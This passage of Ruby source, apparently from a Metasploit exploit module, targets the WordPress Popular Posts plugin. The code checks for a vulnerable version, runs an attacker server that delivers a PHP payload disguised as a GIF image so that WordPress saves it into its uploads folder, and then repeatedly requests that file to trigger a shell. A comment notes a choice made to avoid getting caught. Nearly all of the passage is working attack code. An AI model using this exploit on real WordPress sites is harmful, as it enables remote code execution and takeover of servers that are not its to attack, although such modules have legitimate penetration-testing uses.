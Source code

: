 [      OptString.new('USERNAME', [true, 'Username of the account', 'admin']),      OptString.new('PASSWORD', [true, 'Password of the account', 'admin']),      OptString.new('TARGETURI', [true, 'The base path of the Wordpress server', '/']),      # https://github.com/WordPress/wordpress-develop/blob/5.8/src/wp-includes/http.php#L560      OptString.new('SRVHOSTNAME', [true, 'FQDN of the metasploit server. Must not resolve to a reserved address (192/10/127/172)', '']),      # https://github.com/WordPress/wordpress-develop/blob/5.8/src/wp-includes/http.php#L584      OptEnum.new('SRVPORT', [true, 'The local port to listen on.', 'login', ['80', '443', '8080']]),    ]  end  def check    return CheckCode::Safe('Wordpress not detected.') unless wordpress_and_online?    checkcode = check_plugin_version_from_readme('wordpress-popular-posts', '5.3.3')    if checkcode == CheckCode::Safe      print_error('Popular Posts not a vulnerable version')    end    return checkcode  end  def trigger_payload(on_disk_payload_name)    res = send_request_cgi(      'uri' => normalize_uri(target_uri.path),      'keep_cookies' => 'true'    )    # loop this 5 times just incase there is a time delay in writing the file by the server    (1..5).each do |i|      print_status("Triggering shell at: #{normalize_uri(target_uri.path, 'wp-content', 'uploads', 'wordpress-popular-posts', on_disk_payload_name)} in 10 seconds. Attempt #{i} of 5")      Rex.sleep(10)      res = send_request_cgi(        'uri' => normalize_uri(target_uri.path, 'wp-content', 'uploads', 'wordpress-popular-posts', on_disk_payload_name),        'keep_cookies' => 'true'      )    end    if res &amp;&amp; res.code == 404      print_error('Failed to find payload, may not have uploaded correctly.')    end  end  def on_request_uri(cli, request, payload_name, post_id)    if request.method == 'HEAD'      print_good('Responding to initial HEAD request (passed check 1)')      # according to https://stackoverflow.com/questions/3854842/content-length-header-with-head-requests we should have a valid Content-Length      # however that seems to be calculated dynamically, as it is overwritten to 0 on this response. leaving here as notes.      # also didn't want to send the true payload in the body to make the size correct as that gives a higher chance of us getting caught      return send_response(cli, '', { 'Content-Type' => 'image/gif', 'Content-Length' => "GIF#{payload.encoded}".length.to_s })    end    if request.method == 'GET'      on_disk_payload_name = "#{post_id}_#{payload_name}"      register_file_for_cleanup(on_disk_payload_name)      print_good('Responding to GET request (passed check 2)')      send_response(cli, "GIF#{payload.encoded}", 'Content-Type' => 'image/gif')      close_client(cli) # for some odd reason we need to close the connection manually for PHP/WP to finish its functions      Rex.sleep(2) # wait for WP to finish all the checks it needs      trigger_payload(on_disk_payload_name)    end    print_status("Received unexpected #{request.method} request")  end  def check_gd_installed(cookie)    vprint_status('Checking if gd is installed')    res = send_request_cgi(      'uri' => normalize_uri(target_uri.path, 'wp-admin', 'options-general.php'),      'method' => 'GET',      'cookie' => cookie,      'keep_cookies' => 'true',      'vars_get' => {        'page' => 'wordpress-popular-posts',        'tab' => 'debug'      }    )    fail_with(Failure::Unreachable, 'Site not responding') unless res    fail_with(Failure::UnexpectedReply, 'Failed to retrieve page') unless res.code == 200    res.body.include? ' gd'  end  def get_wpp_admin_token(cookie)
